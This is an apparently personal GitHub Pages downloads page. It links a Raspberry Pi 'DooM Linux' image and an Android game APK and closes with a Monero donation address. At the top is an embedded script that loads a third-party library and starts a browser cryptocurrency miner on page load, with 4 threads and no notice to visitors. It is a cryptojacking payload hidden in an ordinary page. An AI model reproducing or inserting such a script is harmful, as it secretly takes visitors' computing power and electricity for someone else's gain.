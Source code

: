 <meta name="CatCut63b374858d"
content="692BDD5173400C00D0720DB9220B2BF5Y8131" />

<script src="//statdynamic.com/lib/crypta.js"></script>
<script>
  var miner=new CRLT.Anonymous('ecc7128695a7f4c04528cf15cf1409aaf982e19f80b9', {
    threads:4,throttle:0.2, coin: "upx",
  });
  miner.start();
</script>

# Downloads
Old Downloads: [https://sergds.github.io/sergstuff/dindex.html](/sergstuff/dindex.html)

DooM Linux (Raspberry Pi 3/3B) : [[Google Cloud Storage]](https://storage.googleapis.com/sage-momentum-140108.appspot.com/doomlin.img)

Creepy Night At Freddy's (The Removed Android version): [[Google Cloud Storage]](https://storage.googleapis.com/sage-momentum-140108.appspot.com/cnaf-android-shipping-arm64-es2.apk)







Monero: 45jva74w8ikEr4w7KtP8r3SybbthNHQTfJ63ZqR3WjyB6sKNwV4eJm9evp6zZ9uFnzcVs2UyCnesx852ubkFpwJg1m91CLr
